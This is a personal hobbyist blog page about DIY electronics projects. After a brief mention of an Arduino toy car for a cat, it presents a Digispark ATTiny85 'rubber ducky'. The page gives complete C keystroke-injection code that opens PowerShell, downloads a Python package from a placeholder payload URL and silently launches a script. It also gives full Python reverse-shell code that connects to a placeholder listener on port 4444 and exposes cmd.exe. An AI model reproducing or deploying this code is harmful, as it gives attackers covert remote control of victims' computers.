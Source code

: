 ```yaml
---
author: Alessandro Ideo
github_username: usg-ishimura
tags: hacking
image: https://github.com/usg-ishimura/usg-ishimura.github.io/assets/103458862/ae3c68f0-39e9-49c4-bb5c-07ef01d8fdfd
---
```


# DIY Electronics

Some of my recent projects include: 

### Self driving and IR controlled Arduino car as a toy for my cat

![WhatsApp Image 2024-02-13 at 15 09 03](https://github.com/usg-ishimura/usg-ishimura.github.io/assets/103458862/ecdb3725-5078-467a-b606-7b38b9de28a6)

### Digispark italian duckuino

Digispark ATTiny85 can be programmed in C as a rubber ducky, here can be seen in action on a linux target

<video width="100%" height="auto" controls poster="https://github.com/usg-ishimura/usg-ishimura.github.io/assets/103458862/ae3c68f0-39e9-49c4-bb5c-07ef01d8fdfd">
  <source src="https://github.com/usg-ishimura/usg-ishimura.github.io/assets/103458862/eab69685-c03f-42d9-84f9-8181bb52f951" type="video/mp4">
  Your browser does not support the video tag.
</video> 

The C windows payload for the DIY rubber ducky

```c
#include "DigiKeyboard.h"

void setup() {

	DigiKeyboard.sendKeyStroke(0);
	DigiKeyboard.delay(500);
	DigiKeyboard.sendKeyStroke(0,MOD_GUI_LEFT);
	DigiKeyboard.delay(1000);
	DigiKeyboard.print("powershell");
	DigiKeyboard.delay(500);
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(1000);
	DigiKeyboard.println("wget https://embeddable-package-&-payload-URL/python-w32.zip -O python-w32.zip");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(500);
	DigiKeyboard.println("Expand-Archive -Force python-w32.zip -DestinationPath App");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	DigiKeyboard.delay(500);
	DigiKeyboard.println("cd App\\python-w32; Start-Process -WindowStyle Minimized .\\python reverse.py; exit");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
	  
}

void loop() {

}
```

And the python code for the reverse shell:

```python
import os,socket,subprocess,threading;

# On listener: nc -lvp 4444

def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("listener-URL", 4444))

p=subprocess.Popen(["\\windows\\system32\\cmd.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```
